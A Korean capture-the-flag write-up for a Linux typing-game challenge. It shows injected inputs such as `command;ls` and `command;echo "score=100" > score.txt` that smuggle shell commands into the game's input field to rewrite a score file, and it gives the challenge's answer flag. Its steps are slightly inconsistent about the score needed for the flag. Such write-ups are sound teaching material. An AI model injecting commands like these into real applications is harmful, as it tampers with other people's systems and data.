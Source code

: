 # 문제 29 - 리눅스 타자 연습 게임 Challenge Solution

## 문제 설명
리눅스 타자 연습 게임에서 Command Injection 취약점을 이용하여 점수를 조작하고 플래그를 획득하는 문제입니다.

## 풀이 과정
1. 게임 실행
   - 게임 시작 버튼을 클릭하여 게임 시작
   - 기본적으로 단어 맞추기당 1점씩 획득
   - script.js 읽어보면 커맨드 인젝션 을 할떄 앞에 오는 단어가 내려오는 명령어 혹은 command 일때 명령어가 인식됨
  ![alt text](image-1.png)

2. Command Injection 취약점 발견
   - 입력창에 `command;ls` 또는 `단어;ls` 입력 시 가상 디렉토리 내용 확인 가능
   - score.txt 파일 발견

3. 점수 조작
   ```bash
   # 현재 점수 설정 확인
   command;cat score.txt
   > score=1

   # 점수 값 수정
   command;echo "score=100" > score.txt

   # 수정된 점수 확인
   command;cat score.txt
   > score=100
   ```

4. 플래그 획득
   - 수정된 점수(100점)로 단어 입력
   - 1000점 달성 시 플래그 자동 출력

## 사용된 기술
- Command Injection
- 파일 시스템 조작
- 점수 시스템 취약점

## 보안 교훈
1. 사용자 입력값 검증의 중요성
2. 파일 시스템 접근 제어의 필요성
3. 점수 시스템 무결성 보장의 중요성
4. Command Injection 방지를 위한 입력값 필터링

## 최종 플래그
```
flag{4368616c6c656e6765666c6167}